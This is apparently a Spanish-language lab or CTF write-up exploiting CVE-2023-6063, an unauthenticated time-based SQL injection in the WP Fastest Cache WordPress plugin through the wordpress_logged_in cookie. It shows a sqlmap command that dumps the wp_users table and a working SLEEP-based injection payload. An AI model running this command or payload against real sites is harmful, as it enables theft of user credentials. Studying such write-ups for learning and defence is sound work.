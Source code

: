 Este plugin tiene un CVE que afecta a la versión que se está ejecutando en la web

- https://wpscan.com/blog/unauthenticated-sql-injection-vulnerability-addressed-in-wp-fastest-cache-1-2-2/

<br>

# Intrusión / Explotación 
---
## Unauthenticated Time Based SQL Injection - CVE-2023-6063 

Esta vulnerabilidad es de tipo `Time Based`, por lo que podremos saber si nuestras consultas se ejecutan mediante una espera por parte de la respuesta del servidor

- https://github.com/Eulex0x/CVE-2023-6063

**En este caso, tendríamos una cookie que es vulnerable, `wordpress_logged_in`**


## SQL Injection - Python Scripting

Podemos hacer una explotación mediante la herramienta `sqlmap`, que hará que el ataque sea automatizado, pero intentaremos entender cómo funcionan las consultas que se están enviando.

Generalmente existe una base de datos `wordpress`, entonces debemos ajustar `sqlmap` para que haga consultas a esta base de datos

~~~ bash
sqlmap --dbms=mysql -u "http://norc.labs/wp-login.php" --cookie='wordpress_logged_in=*' --level=2 -D wordpress -T wp_users --dump --batch
-v2
~~~

- `--dmbs`: Definir el motor de base de datos, en este caso `mysql`
- `-u`: URL
- `--cookie='wordpress_logged_in=*'`: Asignar una cookie a la consulta, **esta cookie es vulnerable a SQL Injection**
- `*`: Valor donde se ingresa el `payload`, en este caso, en la cookie `wordpress_logged_in`
- `--level`: Indica el nivel de intensidad en las pruebas
- `-D`: Especificar el nombre de la base de datos
- `-T`: Nombre de una tabla
- `--dump`: Listar los registros
- `--batch`: Omitir las preguntas al usuario
- `-v2`: Ver información por consola

Según los logs de `sqlmap`, podremos ver la consulta que estaría efectuando para explotar SQL Injection, **esto es importante para elaborar nuestro exploit**

~~~ text
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: wordpress_logged_in=" AND (SELECT 7667 FROM (SELECT(SLEEP(5)))TXGt) AND "YlCM"="YlCM
~~~
